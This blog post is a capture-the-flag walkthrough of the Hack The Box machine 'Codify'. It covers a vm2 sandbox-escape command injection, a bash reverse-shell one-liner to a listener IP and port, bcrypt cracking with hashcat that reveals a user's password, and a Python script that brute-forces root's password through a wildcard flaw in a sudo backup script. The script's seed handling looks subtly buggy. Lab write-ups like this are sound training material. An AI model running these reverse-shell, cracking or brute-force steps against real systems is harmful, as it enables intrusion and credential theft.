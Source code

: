 ```yaml
---
layout: post
title:  "Codify"
date:   2024-04-05 17:04:54 +0100
tags: ["OS Command Injection", "Brute Force"]
os: "Linux"
level: "Medium"
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/57b977ea744af01a5454c8643a850e59.png"
---
```


## Information Gathering

First run a nmap scan to show the services available on the target.

![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.webp)

*Note:  The output shows port 3000 open, it was someone else who had access to the machine and opened that port.*

The web application use the vm2 software to allow users to execute Nodejs code in the server.

![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.webp)

The version of vm2 can be found at link of the About us page.

![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.webp)

## Vulnerability Assesment

A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)

In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

## Execute reverse shell

We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
```

![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.webp)

Before clicking on `Run`, make sure you have netcat listening.

![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.webp)

¡We are in! The next step is to gather information again.

## Brute Forcing Password

We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.

![HTTP Web service](/assets/machines/codify.htb/images/7_users.webp)

Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.

![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.webp)

If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The argument `-m 3200` indicates that we will use the Bcrypt hash.

![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.webp)

The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.

![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.webp)

Thanks God! We got Joshua's flag, and now let's go for root.

## Privilege Escalation

The command `sudo -l` shows us the commands/scripts that we can execute as root.

![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.webp)

We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.

Fortunately, the following conditional has a vulnerability that we can exploit:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.

After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.

```python
import os
import time


# This python script brute force the password by using wildcard * in the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass_arr = 'kljh12k3jhaskjh12kjh'.split()
i = 0
while True:
    pass_str = ''.join(pass_arr)
    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
    time.sleep(0.5)

    # If the appended character was not found, replace it with the next character
    if result != 0:
        print(f"Character not found: {pass_str}*")
        i += 1
        # If we have tried all characters, password was found
        if i >= len(chars):
            pass_arr.pop()
            print(f"Password found: {''.join(pass_arr)}")
            break
        # Otherwise, replace the last character with the next one
        pass_arr[len(pass_arr) - 1] = chars[i]
        continue

    # If a new character was found, add it to the password
    print(f"Found character: {pass_str}*")
    i = 0
    pass_arr.append(chars[i])
    continue
```

The above script will perform a brute force attack to obtain the root password.

![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.webp)

Finally, after a few minutes, we have obtained the root password.

![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.webp)

Use it wisely to obtain the root flag.

¡Happy Hacking!
